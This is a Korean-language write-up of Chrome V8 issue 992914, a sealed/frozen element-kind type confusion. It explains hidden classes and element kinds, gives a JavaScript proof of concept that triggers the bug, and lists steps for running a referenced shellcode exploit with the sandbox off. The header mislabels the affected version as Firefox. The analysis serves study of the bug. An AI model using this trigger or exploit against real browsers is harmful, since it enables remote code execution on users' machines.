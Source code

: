 # Chrome Sealed Frozen Element Kind Type Confusion

## Information
- CVE : None
- 해당 소프트웨어 : Chrome (on Windows)
- 해당 버전 : < Firefox 76.0.3809.132
- 취약점 유형 : TypeConfusion

## Root Cause
### Hidden Class
V8 engine에서 String(or Symbol) Key Object를 생성할때 HiddenClass라는 새로운 class를 생성한다. HiddenClass는 기존 객체지향언어의 Class의 개념과 비슷한데 기존 HiddenClass에 새로운 named Property(String key로 선언된 property)가 추가될때마다 그에 맞는 새로운 HiddenClass를 생성한다. 이를 간략하게 나타낸 그림은 아래와 같다.


![Transitions](/images/writeups/transitions.png)

새로운 객체가 생성될때 해당 객체와 모양이 동일한(string key의 값이 동일한) 기존에 생성된 HC가 있다면 이를 재사용하지만 그렇지 않다면 HiddenClass tree에 새로운 HC를 생성한다. 


![Transition-trees](/images/writeups/transition-trees.png)

small integer key를 가지는 객체의 경우 최적화를 위해 압축된 폼새으로 저장된다. V8은 다양한 element kinds를 관리하는데, 예를들어 PACKED_SMI_ELEMENTS는 앞서 말한 small integer key객체를 저장하는 element kind이다. 저장 포맷은 type confusion을 방지하기 위해 객체가 수정될때마다 변경된다. 예를들어 PACKED_SMI_ELEMENTS 객체에 float key를 가지는 property를 추가하면 element kind가 PACKED_DOUBLE_ELEMENTS로 변경되고 기존의 integer keys도 float형으로 변경된다.

### preventExtensions, seal and freeze
자바스크립트는 object의 properties들을 고정하기 위한 몇가지 방법을 제공한다
- Object.preventExtensions : 새로운 properties가 object에 추가되는 것을 방지한다.
- Object.seal : 세로운 properties의 추가 뿐만아니라 기존의 properties의 재설정을 방지한다.
- Object.freeze : Object.seal의 기능에 더불어서 properties의 값 변경또한 방지한다.

### Root cause
Type Confusion 취약점은 앞서 설명한 세가지 메소드를 호출한 이후 객체를 수정하여 element kind를 변경될때 발생한다. 자세한 설명은 다음장에서 POC살펴보며 분석해보겠다.

## PoC
```javascript
// Based on test/mjsunit/regress/regress-crbug-992914.js
function mainSeal() {
  const a = {foo: 1.1};   // a has map M1
  Object.seal(a);         // a transitions from M1 to M2 Map(HOLEY_SEALED_ELEMENTS)
  const b = {foo: 2.2};   // b has map M1
  Object.preventExtensions(b);  // b transitions from M1 to M3 Map(DICTIONARY_ELEMENTS)
  Object.seal(b);         // b transitions from M3 to M4
  const c = {foo: Object} // c has map M5, which has a tagged `foo` property, causing the maps of `a` and `b` to be deprecated
  b.__proto__ = 0;        // property assignment forces migration of b from deprecated M4 to M6
  a[5] = 1;               // forces migration of a from the deprecated M2 map, v8 incorrectly uses M6 as new map without converting the backing store. M6 has DICTIONARY_ELEMENTS while the backing store remained unconverted.
}
mainSeal();
```

POC에서 a와 b라는 동일한 형태의 두 객체가 생성된다. a의 경우 sea 메소드가 호출되고, b는 seal 메소드와 함께 preventExtensions 메소드가 호출된다. 이 때문에 a의 경우 기존 M1 map에서  HOLEY_SEALED_ELEMENTS라는 element kind로 변경되고 b의 경우 DICTIONARY_ELEMENT로 element kind가 변경된다. 

취약점은 10~13라인에서 발생한다. 10번째 줄에서 객체 c가 이상한 타입의 foo property로 생성된다. 이로인해 foo property를 위한 새로운 map이 생성되고 기존의 a와 b의 map은 deprecated된다. 이로인해 다음번 객체 수정에서 a와 b의 map 형식이 변경된다. 11번째 줄에서는 b의 transition이 발생하고 13번째 줄에서는 a의 transition이 발생한다. 문제는 V8이 a의 map을 b와 동일한 map으로 변경하지만 backing store는 변경하지 못해서 발생한다. 이때문에 FixedArray와 NumberDictionary 간의 Type Confusion이 발생한다. 

위의 예제 말고도 다양한 조합의 type confusion이 발생할 수 있다. 

## How to run exploit?
> OS : Windows 10 64bit
> 
> Chrome version : 76.0.3809.100 and 76.0.3809.132
1) --no-sandbox 옵션으로 크롬 실행
2) exp.html 파일을 로드
3) 쉘코드를 수정하고싶으면 shellcode.js를 수정
## Reference
- [Exodus Intel Blog : "PATCH-GAPPING GOOGLE CHROME"](https://blog.exodusintel.com/2019/09/09/patch-gapping-chrome/)
- [Exodus Intel Github : "Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit"](https://github.com/exodusintel/Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit/tree/master/chrome_992914)
- [V8 dev Blog : "Fast properties in V8"](https://v8.dev/blog/fast-properties)